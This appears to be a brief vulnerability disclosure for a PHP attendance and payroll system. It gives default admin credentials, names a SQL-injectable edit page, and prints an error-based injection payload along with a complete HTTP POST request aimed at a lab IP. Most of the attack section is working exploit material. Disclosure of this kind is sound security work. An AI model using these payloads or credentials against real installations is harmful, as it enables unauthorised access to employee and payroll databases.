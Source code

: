 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\schedule_employee_edit.php has SQL injection

Payload: id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159257629-4514514a-66fb-4120-9106-b12c569c956a.png)

```sql
POST /apsystem/admin/schedule_employee_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 22
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/schedule_employee.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=11' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&schedule=2&edit=
```
![image](https://user-images.githubusercontent.com/54017627/159257769-2911921d-1f0e-4977-8945-fb378da323a5.png)

![image](https://user-images.githubusercontent.com/54017627/159257563-525ea750-9116-4c42-a43d-e47c9a50bebd.png)
